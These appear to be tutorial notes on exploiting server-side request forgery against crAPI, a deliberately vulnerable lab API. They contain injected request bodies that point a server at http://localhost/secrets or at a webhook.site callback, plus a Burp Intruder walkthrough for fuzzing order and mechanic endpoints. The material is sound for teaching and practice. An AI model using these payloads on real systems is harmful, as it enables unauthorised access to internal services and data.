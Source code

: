 --- ---

<h2>Exploiting SSRF</h2>

Server-Side Request Forgery (SSRF) is a vulnerability that takes place when an application retrieves remote resources without validating user input. An attacker can supply their own input, in the form of a URL, to control the remote resources that are retrieved by the targeted server.

- Type of vulnerability
	There are two types of SSRF vulnerabilities, In-Band SSRF and Blind SSRF. 
	
	- In Band SSRF, means that the server responds with the resources specified by the end user. If the attacker specifies the payload as [http://google.com](http://google.com/) to a server with an In-Band SSRF vulnerability the server would make the request and respond to the attacker with information served from google.com. 

	- Example of In-Ban SSRF
		- For an In-Band SSRF, a URL is specified as an attack. The request is sent and the content of your supplied URL is displayed back to you in a response. 

		**Intercepted Request:**
		
	        POST api/v1/store/products
	        headers…
	        {
	        "inventory":"http://store.com/api/v3/inventory/item/12345"
	        }
		
		**Attack:**
		
	        POST api/v1/store/products
	        headers…
	        {
	        "inventory":"_**_§_****_http://localhost/secrets_****_§"_**`
	         }
		
		**Response:**
		```
		HTTP/1.1 200 OK  
		headers...  
		**{**
		**"secret_token":"crapi-admin"**
		**}**
		```
Once you have discovered an In-Band SSRF vulnerability you could leverage control over the URL to scan the internal network environment, gather sensitive information from the localhost, or attempt to perform a remote code execution attack.

- Blind SSRF takes place when the attacker supplies a URL and the server makes the request but does not send information from the specified URL back to the attacker. In the case of Blind SSRF, you would need a web server that will capture the request from the target to prove that you forced the server to make the request.      Brup Suit ---> [[• Collaborator]]

- Example of Blind SSRF
  
- Blind SSRF takes place when a vulnerable server performs a request from user input but does not send a response back to the user indicating a successful attack. The app does not provide an unusual response to the user, but the server does make the request to the URL specified by the attacker. In this case, to know if the request was made you will need to have some control over the web server that is specified in the attack.

**Intercepted Request:**
		
		`_POST api/v1/store/products_`
		`_headers…_`
		`_{_`
		`_"inventory":"http://store.com/api/v3/inventory/item/12345"_`
		 }
		
  
**Attack**:
		
		POST api/v1/store/products_
		headers…_
		{
		"inventory:"_**_§_****_http://localhost/secrets_****_§"_**
		} 
		
 
  
**Response:**
		
		HTTP/1.1 200 OK  
		headers...  
		{}
		
  

In this case, the response is returned and we do not have any indication that the server is vulnerable. Instead of [http://localhost/secrets](http://localhost/secrets), we will need to provide the URL to a web server that will let us see if a request is actually made. Burp Suite Pro has a great tool called Burp Suite Collaborator. Collaborator can be leveraged to set up a web server that will provide us with the details of any requests that are made to our random URL. To stick with free tools, we will leverage [http://webhook.site](http://webhook.site/). You can also use one of these other free sites: 
		
-   [http://pingb.in/](http://pingb.in/) 
-   [https://requestbin.com/](https://requestbin.com/) 
-   [https://canarytokens.org/](https://canarytokens.org/) 
		
![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/UHz28Z8BT8i3ZOFGS1xg_ssrf2.PNG)
		
By navigating to webhook.site a random URL will be created. You can then use that randomized URL as a payload and track it to see if any requests are made to it. So, our Blind SSRF attack would look more like this.
		
**Attack**:
		
		POST api/v1/store/products
		headers…
		{
		"inventory":"_**_§[https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0](https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0)_****_§"_**
		 }
		
  
Once we submit this request we will not depend on the response, instead, we will check webhook.site for any new requests.
		
![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/ZJM875zQSICtbtxnT6W1_ssrf3.PNG)
		
I chose to demonstrate SSRF using webhook.site because it is free, does not require an account, and allows you to create custom responses. You can use the edit button (top right) to create your own custom response.
		
![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/MkztTx9GR8WL60cnAKDx_ssrf4.PNG)
		
In the response body, I have emulated what could be a web server that could be a part of the crAPI architecture. This URL can be leveraged for both In-Band and Blind SSRF attacks.
		
Now that we have reviewed typical SSRF attacks, you will need to know the types of requests to look for when searching for vulnerabilities.


---

<h2>Testing for SSRF</h2>

**-Example**
	
1.  Either using Postman or the web browser, proxy the requests that you are targeting to Burp Suite.
---

2.  Next, send the request over to Repeater to get an idea of a typical response.  
     ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/IIcdakknQ7y3KjFakNwZ_ssrf5.PNG)  

     ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/mQzAVhkrTO2Rfoumy9Rt_ssrf6.PNG)
---

3.  In the case of the return_order request, we are able to return an item once. If we attempt to return the item twice then we will receive a response that the item has already been returned.  
    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/yCTiwfUTTvCKxvKjQGmo_ssrf7.PNG)
---

4.  In order to successfully test this request we will need a valid order_id. So, we will need to purchase several items in order to be able to make several requests to return an item. Use the POST /workshop/api/shop/orders request to purchase several items. If you need to increase your account balance, return to the Mass Assignment exploit. Purchase enough items, so that you can attempt several attacks.  

    ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/Mg93ujzSVyb0MeTJFXcw_ssrf8.PNG)

---

5.  To test this successfully we will need to change the attack type to Pitchfork. Note that Pitchfork allows us to pair separate payloads together. In the case of this request, we will want to pair a valid order_id with an SSRF payload. This will allow us to increase the item_id while simultaneously sending over various attack attempts.  

  ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/hIDoWht0RfWW60zFfSdT_ssrf9.PNG)

---

6.  Set the first payload to valid order_id numbers.   

 ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/YGjcoz6XSxmzhQ5KK0iC_ssrf10.PNG)  

Set the second payload to potentially interesting URLs including your webhook.site URL.  For additional SSRF payload ideas check out [PayloadAllTheThings SSRF List](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery).  

![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/J6R516giR0G2dLNZGO9B_ssrf11.PNG)

---

7.  Review the results. Look for anomalies and any indication within the response that indicate that we were able to control the remote resources processed by the server. In this case, there is no indication in the response.  

     ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/Z79Q0RK9Q4mKQa09HsF3_ssrf12.PNG)  
	      
Next, make sure to check the webhook.site and see if a blind SSRF attack was successful. Again, the URL was not requested and this request does not appear to be vulnerable. Notice the requests shows 0/500 and the message "Waiting for first request...".  
	    
![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/DQe3MF8aThyrpztmuWZy_ssrf14.PNG)
	
Let's try this out on the contact_mechanic request. Set the attack position, copy and paste the payloads you previously used for URLs, and send the attack. Review the results and see if there is anything interesting.
	
![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/rCAq7jpJRwabZ2rzmXVH_ssrf15.PNG)
	
Sure enough, the localhost requests fail, but the other URLs provided are successful. As far as reviewing for anomalies, we can see that there are a variety of status codes and response lengths. Upon reviewing the responses from the successful requests, we can see that the remote resources we requested were sent back over the API request.   
	
 ![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/wrsbVrSBRrmtndHVIgfd_ssrf16.PNG)
	
We can also verify that a request was made from the server by visiting our webhook.site page.
	
![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/WtZCOd2TStefkvaIIhYK_ssrf13.PNG)  
